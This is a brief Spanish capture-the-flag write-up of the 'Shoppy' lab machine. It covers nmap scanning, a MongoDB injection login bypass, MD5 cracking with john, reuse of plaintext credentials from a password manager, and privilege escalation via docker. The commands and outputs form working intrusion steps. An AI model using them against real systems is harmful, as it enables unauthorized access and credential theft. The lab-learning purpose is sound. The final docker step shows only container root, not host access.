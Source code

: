 # ShoppyWriteup

Este fue mi primer writeup

~~~
nmap -v -sS -oX vulnerabilidades.xml --stylesheet=https://svn.nmap.org/nmap/docs/nmap.xsl --script=vuln 10.10.11.180
~~~

![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/ad5c508c-f85f-4d92-b859-11c3451bac18)

Nmap nos dice que está el puerto 80, entonces entramos y hay un login
Pero antes editamos los hosts para entrar

~~~
sudo nano /etc/hosts
~~~
![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/e4f934a0-984a-4c91-8c00-611e6a36803d)

Ahora si entramos y calamos un slq injection básico

![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/f42fa178-2421-4231-a7cd-5b3e4498be26)

Usamos sqlinjection

Pero no jala con la normal, investigamos y descubrimos

Esta es mongo

![imagen](https://github.com/Hamibubu/ShoppyWriteup/assets/108554878/e51aa0d8-1f93-4366-b71a-e80a3e255367)

Entramos y vemos admin

Sacamos la contra que esta con md5, esa es la de admin, falta de le josh que es otro user

~~~
┌──(kali㉿kali)-[~]
└─$ sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.md5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-11-01 21:44) 0g/s 20787Kp/s 20787Kc/s 20787KC/s  fuckyooh21..*7¡Vamos!

~~~

## Escalar privilegios

Vemos un password manager

~~~
jaeger@shoppy:/home/deploy$ sudo -u  deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ ls
creds.txt  password-manager  password-manager.cpp
$ cat cred
cat: cred: No such file or directory
$ cat creds.txt
Deploy Creds :
username: deploy
password: Deploying@pp!
~~~

Conseguimos las creds

Corremos con docker

~~~       
$ docker run -di --name flast101 alpine:latest
53d650ce3ac0a77c2516cf21fc171f2ed443779bb1a8112a7ba05931edbf1bc9
$ docker exec -ti flast101 sh
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # whoami
root
~~~

Listo


